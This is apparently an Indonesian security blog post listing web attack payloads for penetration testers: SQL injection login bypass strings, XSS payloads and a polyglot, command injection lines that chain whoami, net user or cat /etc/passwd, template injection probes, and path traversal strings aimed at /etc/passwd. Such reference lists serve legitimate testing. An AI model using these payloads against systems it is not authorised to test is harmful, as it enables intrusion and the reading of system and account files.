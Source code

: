 ```yaml
---
title: Payloads for Security Researcher
excerpt: Ini adalah bagian dari instruksi yang dieksekusi untuk mengeksploitasi kerentanan dalam sistem.
date: 2025-03-31 01:37:00
tags: [securityresearcher]
categories:
  - [Resources for Security Researcher]
index_img: https://raw.githubusercontent.com/1337rokudenashi/1337rokudenashi.github.io/main/reincarnation.png
banner_img: https://raw.githubusercontent.com/1337rokudenashi/1337rokudenashi.github.io/main/1337rokudenashi.png
---
```


Ini adalah bagian dari instruksi yang dieksekusi untuk mengeksploitasi kerentanan dalam sistem. 

**Payloads for SQL Injection Authentication Bypass**

- `' or 1=1 limit 1 -- -+`
- `'="or'`

**Payloads for Cross-Site Scripting**

- `"><script>alert('vulnerable')</script>`
- `"><img src=vulnerable onerror=alert('vulnerable') />`
- `"><svg onload=alert('vulnerable')>`
- `"><input type=image src onerror="alert('vulnerable')">`

**XSS Polyglots**

Poliglot XSS adalah string yang mampu disuntikkan ke dalam beberapa konteks yang berbeda dan masih menghasilkan eksekusi JavaScript, ini bekerja di lebih dari 20 konteks.

- payload for xss polyglots
```xss polyglots
jaVasCript:/*-/*`/*`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>x3csVg/<sVg/oNloAd=alert()//>x3e
```

Kelemahan poliglot adalah mudah terdeteksi oleh firewall aplikasi web (WAF), mereka cenderung cukup panjang dalam hal panjang karakter, dan mereka tidak berfungsi di setiap konteks.

**Payloads for Command Injection**

- `; uname -a; cat /etc/passwd`
- `& cmd /c "whoami & net user"`

**Payloads for Server-Side Template Injection**

- `{{ 13*37 }}`
- `${{13*37}}`
- `<%= 13*37 %>`
- `#{13*37}`
- `{{= 13*37 }}`

**Payloads for Path Traversal**

- `../../../etc/passwd`
- `/etc/passwd`
- `....//....//....//etc/passwd`
- `..%252f..%252f..%252fetc/passwd`
- `../../../etc/passwd%00.png`

Ini telah disesuaikan untuk peneliti keamanan melakukan pengujian kerentanan yang lebih luas dan mendalam.
